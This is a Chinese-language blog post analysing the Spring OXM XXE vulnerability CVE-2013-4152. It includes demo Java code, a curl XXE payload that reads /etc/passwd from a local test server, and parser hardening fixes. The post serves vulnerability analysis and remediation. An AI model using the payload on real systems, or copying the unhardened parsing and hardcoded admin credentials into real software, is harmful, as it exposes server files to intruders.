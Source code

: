 ```yaml
---
layout: post  
title: "2018-01-26-Spring XXE漏洞(CVE-2013-4152,CVE-2014-0225)"  
date: 2017-11-03  
description: "java漏洞"  
tag: 漏洞分析
---
```

  #介绍  
老漏洞了，原理也很简单，随便分析一波。  
漏洞编号为CVE-2013-4152，根据官方提示，xxe漏洞，漏洞的位置包括oxm，嗯，现学现卖，直接翻到文档学习一波
https://docs.spring.io/spring/docs/current/spring-framework-reference/data-access.html#oxm
根据官方写一个demo  

    ````
    public class Application {
    private static final String FILE_NAME = "src/main/java/test/settings.xml";
    private Settings settings = new Settings();
    private Marshaller marshaller;
    private Unmarshaller unmarshaller;

    public void setMarshaller(Marshaller marshaller) {
        this.marshaller = marshaller;
    }

    public void setUnmarshaller(Unmarshaller unmarshaller) {
        this.unmarshaller = unmarshaller;
    }

    public void saveSettings() throws IOException {
        FileOutputStream os = null;
        try {
            os = new FileOutputStream(FILE_NAME);
            this.marshaller.marshal(settings, new StreamResult(os));
        } finally {
            if (os != null) {
                os.close();
            }
        }
    }

    public void loadSettings() throws IOException {
        FileInputStream is = null;
        try {
            is = new FileInputStream(FILE_NAME);
            this.settings = (Settings) this.unmarshaller.unmarshal(new StreamSource(is));
        } finally {
            if (is != null) {
                is.close();
            }
        }
    }

    public static void main(String[] args) throws IOException {
        ApplicationContext appContext =
                new ClassPathXmlApplicationContext("applicationContext.xml");
        Application application = (Application) appContext.getBean("application");
        application.saveSettings();
        application.loadSettings();
    }

	}
----------------------------------	

    ````
    public class Settings {
    private boolean fooEnabled;

    public boolean isFooEnabled() {
        return fooEnabled;
    }

    public void setFooEnabled(boolean fooEnabled) {
        this.fooEnabled = fooEnabled;
    }

	}
    
    ````
    
----------------------------------
测试完xml解析之后，写了一个web项目，验证一下，核心代码如下:
    
    ````
    @Controller
	public class XmlController {
    @RequestMapping(value = "/login", method = RequestMethod.POST, consumes = "application/xml")
    @ResponseBody
    public String login(@RequestBody User user) {
        String username = user.getUserName();
        String userpassword = user.getUserPassword();
        String result;

        if (username.equals("admin") && userpassword.equals("admin888")){
            result = "{'status':'ok', 'message': 'login success', 'username': " + username+ "}";
        }else {
            result = "{'status':'error', 'message': 'login fail', username': " + username+ "}";
        }
        return result;
    }

	}
    ````
-----------------------------------

    ````
    @XmlRootElement(name = "user")
public class User {
    private String userId;
    private String userName;
    private String userPassword;

    @XmlElement
    public String getUserPassword() {
        return userPassword;
    }

    public void setUserPassword(String userPassword) {
        this.userPassword = userPassword;
    }

    @XmlElement
    public String getUserId() {
        return userId;
    }

    public void setUserId(String userId) {
        this.userId = userId;
    }

    @XmlElement
    public String getUserName() {
        return userName;
    }

    public void setUserName(String userName) {
        this.userName = userName;
    }
	}
    ````
   
-------------------------------------

正常测试XML如下

curl -i -X POST -H "Content-Type:application/xml" -d "<?xml version=\"1.0\" encoding=\"UTF-8\"?><user><userName>admin</userName><userPassword>admin888</userPassword></user>" http://127.0.0.1:8080/CVE-2013-4152/login

 xml：

<?xml version=\"1.0\" encoding=\"UTF-8\"?><user><userName>admin</userName><userPassword>admin</userPassword></user>

![](http://ohsqlm7gj.bkt.clouddn.com/18-1-26/89299704.jpg)

有回显
curl -i -X POST -H "Content-Type:application/xml" -d "<?xml version=\"1.0\" encoding=\"UTF-8\"?>
<!DOCTYPE a [<!ENTITY xxe2 SYSTEM \"file:///etc/passwd\">]>
<user><userName>&xxe2;</userName><userPassword>admin</userPassword></user>" http://127.0.0.1:8080/CVE-2013-4152/login
    ![](http://ohsqlm7gj.bkt.clouddn.com/18-1-26/57761901.jpg)
    
漏洞造成的原因是由于unmarshal函数中直接解析xml文件,没什么好分析的。

官方修复的补丁
https://github.com/spring-projects/spring-framework/pull/317/commits/2843b7d2ee12e3f9c458f6f816befd21b402e3b9

指的说明的是网上很多关于xxe漏洞的修复方案中只提到
    
    DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
	dbf.setExpandEntityReferences(false);
	
各种类型的具体修复方案见下面
DOM

    DocumentBuilderFactory documentBuilderFactory = DocumentBuilderFactory.newInstance();
    documentBuilderFactory.setExpandEntityReferences(false);
    DocumentBuilder documentBuilder = documentBuilderFactory.newDocumentBuilder();
    Document document = documentBuilder.parse(externalSource);

SAX

    XMLReader xmlReader = XMLReaderFactory.createXMLReader();
    xmlReader.setFeature("http://xml.org/sax/features/external-general-entities", false);
    xmlReader.parse(new InputSource(externalSource));

StAX

    XMLInputFactory factory = XMLInputFactory.newInstance();
    factory.setProperty(XMLInputFactory.IS_REPLACING_ENTITY_REFERENCES, false);
    XMLStreamReader reader = factory.createXMLStreamReader(externalSource);


Spring OXM

    DocumentBuilderFactory documentBuilderFactory = DocumentBuilderFactory.newInstance();
    documentBuilderFactory.setExpandEntityReferences(false);
    DocumentBuilder documentBuilder = documentBuilderFactory.newDocumentBuilder();
    Document document = documentBuilder.parse(externalSource);
    DOMSource source = new DOMSource(document);
    Jaxb2Marshaller jaxb2Marshaller = ...
    Object unmarshalled = jaxb2Marshaller.unmarshal(source);



CVE-2013-4152补丁设置xmlReader.setFeature("http://xml.org/sax/features/external-general-entities",false);可以防止外部实体被解析  

![](http://ohsqlm7gj.bkt.clouddn.com/18-1-26/60015109.jpg)

  ###参考文档  
http://blog.csdn.net/scmrpu/article/details/50423701
https://security.tencent.com/index.php/blog/msg/69






